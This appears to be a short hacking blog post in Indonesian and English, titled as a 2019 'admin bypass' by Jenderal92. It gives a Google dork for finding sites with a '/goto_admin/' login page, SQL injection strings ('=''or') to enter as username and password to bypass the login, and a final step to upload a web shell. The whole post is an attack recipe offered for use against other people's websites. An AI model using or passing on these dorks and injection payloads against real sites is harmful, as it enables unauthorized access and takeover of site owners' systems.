 ```yaml
---
title: 'New Dork Fresh Bypass Admin 2019 By Jenderal92'
date: 2019-10-05T08:17:00+01:00
draft: false
---
```


  
  
Author : Jenderal92  
Tested On : Android 7.0  
Title : New Dork Fresh Bypass Admin Page Login 2019 Upload Shell  
Dork : inurl:/goto\_admin/ |  
inurl:/goto\_admin Kembangin  
Proof Of Concept  
\- Dorking Di Google Images Pake Dork Di Atas Atau (Use Your Brain Lah wkwk) "Ingat Images "  
\- Pilih Salah Satu Targetnya Gan : Site.com/goto\_adminn/  
Login  
\- Username : '=''or'  
\- Password : '=''or'  
\- Upload shell